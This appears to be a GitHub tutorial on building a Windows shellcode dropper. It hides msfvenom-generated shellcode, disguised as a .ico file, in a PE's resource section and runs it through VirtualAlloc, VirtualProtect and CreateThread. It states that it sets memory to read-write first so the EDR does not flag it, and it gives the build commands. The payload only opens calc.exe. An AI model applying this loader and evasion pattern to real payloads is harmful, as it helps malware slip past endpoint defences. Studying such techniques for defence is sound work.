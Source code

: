 # DropperResourceSection
where the Dropper is saved in the resource Section


Which sections of the PE we can put our code into


Today Lets try to understand different sections where the malicious payload or we can place the code or shellcode in the PE file.

PE has many sections , but her we would be concentrating on main three sections. Which are ...  

1. .text
2. .data
3. .rsrc

To do that lets create a simple code which helps us to understand more , for this we need visual studio (or gcc compiler being installed and use it to compile and create an exe file to run) and x64dbg
https://x64dbg.com/ to download the x64dbg debugger and installation is simple 

![image](https://github.com/user-attachments/assets/f97d1670-b7cb-4668-ad9d-2ac625eadeb4)

It's just a simple diagram which shows the different sections we would be seeing in the PE file.

so we shall first discuss on steps 
1. what API methods are used to allocate a space in the process memory  
2. move our payload into the virtually allocated memory  
3. Then how to provide the permissions after that we can also see the x64dbg being used to see the payload placement.
4. Create a Threat inside the current Process. 


VirutallAlloc is an API which is defined in Kernel32.dll, which allocates a memory in the process we mention

		void * exec_memory;
		
		LPVOID VirtualAlloc( 		
		  LPVOID lpAddress,                // Starting address from which the allacotion should happen , exmple a memory  
		  SIZE_T dwSize,                  // Size of the memory to be allocated   
		  DWORD  flAllocationType,        // What kind of allocation for the memory to be allocated like MEM_COMMIT, MEM_RESERVE 
		  DWORD  flProtect                // Memory Protection to be allocated PAGE_EXECUTE , PAGE_READWRITE etc 
		  );  


Sample line of code =>  

	exec_memory = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
 
 Here we are allocting the memory from 0 address until payload_len, we are having a allocation type as MEM_COMMIT and MEM_RESERVE and giving the permission as PAGE_READWRITE just to avoid the EDR triggering as suspicious if the allocated memory is given directly as PAGE_EXECUTE  

We can find more detailed information in the link [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

Next API Used is RtlMoveMemory, which is used to copy the payload from Source to Destination

		VOID RtlMoveMemory( 		
		  VOID UNALIGNED *Destination,   // Where to move the memory  
		  const VOID UNALIGNED *Source,   // From where to move the payload 
		  SIZE_T         Length           //size of the payload  
		  );  


Sample line of code =>  

	RtlMoveMemory(exec_memory, payload, payload_len); 
 
Here the payload is moved to address pointed or allocated from the VirtualAlloc API  

We can find more detailed information in the link [RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

Next API is VirtualProtect, which Changes the protection on a region of committed pages in the virtual address space of the calling process.

		BOOL VirtualProtect(		
		  [in]  LPVOID lpAddress,    // Source address or address to which we need to change the protection or permission  
		  [in]  SIZE_T dwSize,       // Size of the memory to change the protect
		  [in]  DWORD  flNewProtect, // New Protection we apply from the old protection
		  [out] PDWORD lpflOldProtect // A pointer to a variable that receives the previous access protection value, that is initial page 
		  );  

Sample line of code => 

	rv = VirtualProtect(exec_memory, payload_len, PAGE_EXECUTE_READ, &oldprotect);  
 
 the exec_mem which has the payload or pointing to the payload had a protection PAGE_READWRITE initially and now its being changed to PAGE_EXECUTE_READ

We can find more detailed information in the link [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

Next API would be CreateThread, which creates thread in the process 

	HANDLE CreateThread(  
	  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,     // A pointer to a SECURITY_ATTRIBUTES structure that determines whether the returned handle can be inherited by child processes.  
	  [in]            SIZE_T                  dwStackSize,    // The initial size of the stack, in bytes  
	  [in]            LPTHREAD_START_ROUTINE  lpStartAddress, //   This pointer represents the starting address of the thread  
	  [in, optional]  __drv_aliasesMem LPVOID lpParameter,    //  A pointer to a variable to be passed to the thread.  
	  [in]            DWORD                   dwCreationFlags,  // The flags that control the creation of the thread  
	  [out, optional] LPDWORD                 lpThreadId   //  A pointer to a variable that receives the thread identifier  
	);   

Sample line of code => 

	th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_memory, 0, 0, 0); 
 
 LPTHREAD_START_ROUTINE  Points to a function that notifies the host that a thread has started to execute and exec_mem start of payload to start

We can find more detailed information in the link [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)


Now lets try to understand how to use the resource , here we have calc.ico which is the payload which we insert into the rsrc section. 

1. Lets see how to generate that , for this i am using msfvenom to generate a shellcode which launches the calc.exe on windows and output is bin file. 

   		msfvenom -p windows/exec CMD=calc.exe -f raw -o calc_shellcode.bin

   we are generate a raw ouptut , the -p represents the command which is windows/exec with the input CMD=calc.exe , -f indicates the format of the output which is in raw format and -o indicates the output file and here we have clac_shellcode.bin as output

2. Lets take the input and run a python code named bintoico.py and it genrates the calc.ico, the code does the simple work of reading the file in binary format (rb) and add the header details to make it the ico format
   
3. Now we create two files resource.h and resource.rc
     a. The resource.h consisit of the code , which just define the CALC_ICO  equal to 100. We consider this as resource identifier for our example
   
   		#define CALC_ICO 100

     b. The resource.rc file consist of the statement.

		#include "resources.h"
		CALC_ICO RCDATA calc.ico


    The value "RCDATA" indicates i am creating a binary format data and naming it as CALC_ICO and the file is calc.ico (we can provide the specific path , since the file is in 
    the current directory, provided the name)

4. Lets check on how to compile them and keep them in PE so the PE can refer it later and place them in the rsrc section
   
		rc resource.rc

   	Which means compile the resource.rc and gives us the resource.res

6. Once the resource.res is generated we would be providing it as an input to the the other command  

		cvtres /MACHINE:x64 /OUT:resources.o resources.res

	This command converts the given the resource file resource.res to resource.o , which is an object file. later we would be adding this to our compiled code
7. Here comes the main compiler command which mentiones to add the resource.o to the script while compiling
   
		cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcresourceimplant.cpp /link /OUT:resourceimplant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o

   Everything after the link is important which are sent to the linker (link.exe)

 		/OUT:resourceimplant.exe  output as resourceimplant.exe

   		/SUBSYSTEM:CONSOLE - create a code for Console

   		/MACHINE:x64 machine architecture 64 bit and

   		then the resource file to be linked is resources.o


Understanding the line of Code which are important to the resource access 

		res = FindResource(NULL, MAKEINTRESOURCE(CALC_ICO), RT_RCDATA);
		resHandle = LoadResource(NULL, res);
		payload = (char *) LockResource(resHandle);
		payload_len = SizeofResource(NULL, res);		

  
	

		HRSRC FindResourceA(
		  [in, optional] HMODULE hModule,
		  [in]           LPCSTR  lpName,
		  [in]           LPCSTR  lpType
		);
   		
